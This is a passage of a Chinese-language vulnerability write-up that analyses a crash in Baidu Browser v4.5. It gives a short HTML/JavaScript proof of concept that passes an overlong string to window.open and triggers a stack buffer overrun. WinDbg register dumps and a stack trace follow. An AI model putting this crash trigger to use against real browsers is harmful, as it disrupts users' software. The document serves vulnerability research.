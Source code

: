 * * *

下面使用的目标程序是百度浏览器v4.5，由于我们的poc简单粗暴，为了防止代码一加载就崩，我们在它崩溃前加一个alert(1)，给我们和windbg一个心理准备，使得poc变成下面这样：

```
<script>
var s="A";
var i=1;
for(i=1;i<599559;i++)
s+="A";
alert(1);
window.open(s);
</script>

```

运行浏览器，最好是直接把html拖图标上，这样之后方便我们找哪个进程容纳着html，如下：

![2014030816544725513.png](http://drops.javaweb.org/uploads/images/3c21655b4170fff64ccd3c52b7e3ec5ba24f7246.jpg)  
  图： 暴风雨前夕

姨妈大，给它Attach上，

![2014030816542723049.png](http://drops.javaweb.org/uploads/images/ffc537277859b7e5c4889eae3bde25f6d3d9c62a.jpg)  
  图：这样就能找到pid了

找到对应进程的PID，然后Attach，之后按下g让它跑起来：

```
(9df0.3724): Break instruction exception - code 80000003 (first chance)
eax=7ef42000 ebx=00000000 ecx=00000000 edx=77a8f8ea esi=00000000 edi=00000000
eip=77a0000c esp=0c52fe4c ebp=0c52fe78 iopl=0         nv up ei pl zr na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000246
ntdll!DbgBreakPoint:
77a0000c cc              int     3
0:034> g
……省略
STATUS_STACK_BUFFER_OVERRUN encountered
(9df0.3500): Break instruction exception - code 80000003 (first chance)
eax=00000000 ebx=55b23f30 ecx=77070174 edx=0653d16d esi=00000000 edi=001b7281
eip=7706ff55 esp=0653d3b4 ebp=0653d430 iopl=0         nv up ei pl zr na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000246
kernel32!UnhandledExceptionFilter+0x5f:
7706ff55 cc              int     3

```

程序崩溃。查看一下是怎么产生的，执行kvn

```
0:006> kvn
*** ERROR: Symbol file could not be found.  Defaulted to export symbols for C:\Program Files (x86)\baidu\BaiduBrowser\bdlogicmain.dll - 
 # ChildEBP RetAddr  Args to Child              
00 0653d430 55a57789 55b23f30 34bb28ee cb44d711 kernel32!UnhandledExceptionFilter+0x5f (FPO: [SEH])
WARNING: Stack unwind information not available. Following frames may be wrong.
01 0653d764 5580757b 001b7281 656c6966 00000000 bdlogicmain!BrowserLogicInit+0x198229
02 0653f500 55a4b5f4 0f1a0020 12960020 001b7281 bdlogicmain+0x757b
03 0653f5b8 559f51a6 12700020 0653f5e4 11bef338 bdlogicmain!BrowserLogicInit+0x18c094
04 0653f5fc 558c5b95 12700020 0653f640 559b4105 bdlogicmain!BrowserLogicInit+0x135c46
05 0653f608 559b4105 062b2a1c 559f5040 00000000 bdlogicmain!BrowserLogicInit+0x6635
*** ERROR: Symbol file could not be found.  Defaulted to export symbols for C:\Program Files (x86)\baidu\BaiduBrowser\bdcommon.dll - 
06 0653f640 653d18ec 0eed1240 0653f688 653d1b77 bdlogicmain!BrowserLogicInit+0xf4ba5
07 0653f64c 653d1b77 0653f664 00f7cac9 03329ce0 bdcommon!Util::Help::GetMimeTypeByExt+0x314a
08 0653f688 653cf6a9 ffffffff 00000000 03329ce0 bdcommon!Util::Help::GetMimeTypeByExt+0x33d5
09 0653f6ac 653ceb15 00000001 03329bb0 03329bb0 bdcommon!Util::Help::GetMimeTypeByExt+0xf07
0a 0653f6cc 653cf0f7 03329bb0 00000000 00000001 bdcommon!Util::Help::GetMimeTypeByExt+0x373
```